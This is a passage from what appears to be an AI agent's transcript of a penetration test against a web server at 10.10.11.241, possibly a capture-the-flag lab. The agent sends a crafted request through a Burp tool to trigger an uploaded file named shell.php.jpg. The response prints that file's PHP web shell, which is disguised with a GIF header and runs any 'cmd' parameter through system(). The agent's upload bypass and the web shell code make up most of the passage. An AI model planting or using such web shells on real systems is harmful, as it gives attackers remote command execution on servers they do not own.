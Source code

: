 # Context Window Usage
44,109 / 200K tokens used (22%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The upload with the double extension was successful. Let's try to access the uploaded file to see if the PHP code is executed:
</thinking>

The upload with the double extension was successful. Let's try to access the uploaded file to see if the PHP code is executed.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /uploads/shell.php.jpg?cmd=id HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 200 OK
Date: Wed, 07 May 2025 23:40:57 GMT
Server: Apache/2.4.55 (Ubuntu)
Last-Modified: Wed, 07 May 2025 23:40:52 GMT
ETag: "8d-63494437b1bc8"
Accept-Ranges: bytes
Content-Length: 141
Connection: close
Content-Type: image/jpeg

GIF89a;
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
<environment_details>
# VSCode Visible Files
(No visible files)
